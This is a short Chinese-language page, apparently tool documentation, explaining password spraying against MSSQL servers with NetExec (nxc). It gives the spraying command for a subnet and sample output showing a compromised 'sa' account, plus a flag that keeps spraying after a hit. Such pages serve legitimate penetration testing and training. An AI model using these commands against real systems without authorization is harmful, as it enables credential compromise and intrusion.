 # 密码喷洒攻击

#### 密码喷洒攻击（不使用暴力破解）

```
#~ nxc mssql 192.168.1.0/24 -u userfile -p passwordfile --no-bruteforce
```

预期结果:

```
MSSQL       10.10.10.59     1433   None             [-] ERROR(TALLY): Line 1: Login failed for user 'test1'.
MSSQL       10.10.10.59     1433   None             [+] sa:password (Pwn3d!)
```

{% hint style="info" %}
默认情况下,nxc 会在找到一个有效登录后退出。使用 `--continue-on-success` 标志会在找到有效密码后继续喷洒。这在对大量用户列表使用单个密码进行喷洒时很有用。
{% endhint %}
